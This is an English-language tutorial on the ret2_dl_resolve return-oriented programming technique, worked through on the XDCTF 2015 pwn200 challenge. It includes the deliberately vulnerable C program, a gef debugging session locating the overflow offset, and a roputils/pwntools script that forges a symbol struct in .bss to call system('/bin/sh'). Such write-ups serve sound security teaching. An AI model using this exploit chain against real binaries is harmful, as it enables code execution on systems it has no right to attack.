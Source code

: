 # ret2_dl_resolve

## Main idea
For optimization purposes, even though there is a GOT entry for every dynamically linked libc function, they are only resolved on runtime the first time they are called, using `_dl_runtime_resolve`. 

It will be called in the form `_dl_runtime_resolve(link_map, reloc_arg)`, where `link_map` is a global constant and `reloc_arg` is the offset from the start of the `.rel.plt` section. The `Elf_Sym` struct found at that offset will contain a string which is the name of the function, which is used by `_dl_fixup`, which is called by `_dl_runtime_resolve`, to obtain an address to the function in libc, then inserted into the GOT table for future usage.

### So what?
The existence of such a subroutine allows us to "resolve" our own libc functions, such as `system`, if we can craft our own `Elf_Sym` struct that can trick `_dl_runtime_resolve` into resolving the libc address of `system` for us. 

The success of this lies strongly on 2 properties:
* `dl_fixup` does not verify `reloc_arg`
* The resolution depends on the `st_name` member variable in the `Elf_Sym` struct.

### When to use this?
* When we cannot get a leak (for example, there is no write function)
* Same conditions for normal ROP applies, NX and ASLR
* Possibly cannot PIE and canary since we cannot get a leak
* When we don't know the libc version

### Exploit steps
1) Craft a `Elf_Sym` struct that contains the name of the function we want to resolve.
2) Populate registers or stack with arguments for that function
3) Call `_dl_runtime_resolve` with `reloc_arg` being the offset of our fake struct from `.rel.plt`.

## What does \_dl_runtime_resolve do actually?
```
// TODO: write this part
```

## Example - XDCTF 2015 pwn200
### Code
```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
	char buf[100];
	setbuf(stdin, buf);
	read(0, buf, 256);
}
int main()
{
	char buf[100] = "Welcome to XDCTF2015~!\n";

	setbuf(stdout, buf);
	write(1, buf, strlen(buf));
	vuln();
	return 0;
}
```

Compile with no stack protector

`gcc main.c -m32 -fno-stack-protector -o main`

### Exploit
[roputils](https://github.com/inaz2/roputils) makes it very easy to perform a ret2_dl_resolve  exploit. Just copy roputils.py into the same directory of the exploit script.

First, as usual, we need to find the offset before putting our ROP chain.
```
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/daniel/pwn/ret2dlresolve/xdctf-pwn200 
Welcome to XDCTF2015~!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x000000c9
$ebx   : 0x00000000
$ecx   : 0xffffd13c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x00000100
$esp   : 0xffffd1b0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7f9e000  →  0x001d4d6c ("lM"?)
$edi   : 0xffffd220  →  0xffffd240  →  0x00000001
$eip   : 0x62616164 ("daab"?)
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$es: 0x002b  $cs: 0x0023  $ds: 0x002b  $fs: 0x0000  $ss: 0x002b  $gs: 0x0063  
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
0xffffd1b0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"	 ← $esp
0xffffd1b4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffd1b8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffd1bc│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffd1c0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffd1c4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffd1c8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffd1cc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "xdctf-pwn200", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x62616164 in ?? ()
gef➤  pattern search 0x62616164
[+] Searching '0x62616164'
[+] Found at offset 112 (little-endian search) likely
```

The offset is 112. Prepare our script with pwntools and roputils.

```
from roputils import *
from pwn import process

binary = 'xdctf-pwn200'
r = process(binary)

rop = ROP(binary)
```

To use ret2_dl_resolve, we need to know `reloc_arg`, which means we need to know the address of our fake struct. We can craft it inside `.bss`. We can achieve so by making a call to `read`. 

After `read`, we can use `dl_resolve_call(base, args*)` which will prepare all the necessary arguments to make a call to `_dl_resolve_runtime`, where `base` is the address of our fake struct and `args` are the arguements we want to pass to the function.

```
bss_base = rop.section('.bss')

buf = rop.fill(offset)
buf += rop.call('read', 0, bss_base, 100)
# after using read to construct our symtab in .bss + 20, we use dl_resolve to call it
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)
```

Our final goal is to be able to call `system('/bin/sh')`. Early we specified `args` to be `bss_base`, so we can put our string `'/bin/sh'` there first. Then at `bss_base + 20`, we can craft a fake struct which will be resolved to `system`.

```
# over here we just fill in .bss with the data we need
buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(bss_base + 20, 'system')
r.send(buf)
```

Now, we should be able to get a shell.
```
r.interactive()
```


## Relevant source code
* [\_dl_runtime_resolve](https://github.com/nush-osi-layer-8/glibc/blob/c4ad5782c44f4fa23d3ca9bec1e288c24cf2e6df/sysdeps/x86_64/dl-trampoline.h#L65)
* [dl_fixup](https://github.com/nush-osi-layer-8/glibc/blob/master/elf/dl-runtime.c#L61)
* [reloc_arg is also reloc_offset](https://github.com/nush-osi-layer-8/glibc/blob/master/elf/dl-runtime.c#L46)
* [Elf_Dyn structs](https://github.com/nush-osi-layer-8/glibc/blob/c4ad5782c44f4fa23d3ca9bec1e288c24cf2e6df/elf/elf.h#L817)
* [Elf_Sym structs](https://github.com/nush-osi-layer-8/glibc/blob/c4ad5782c44f4fa23d3ca9bec1e288c24cf2e6df/elf/elf.h#L516)

## References
* https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/advanced_rop/#_1
* http://pwn4.fun/2016/11/09/Return-to-dl-resolve/

As you can see they are all in chinese, so I rewrote this in English. There are writeups in English but they just describe the exploit without actually explaining the internal details.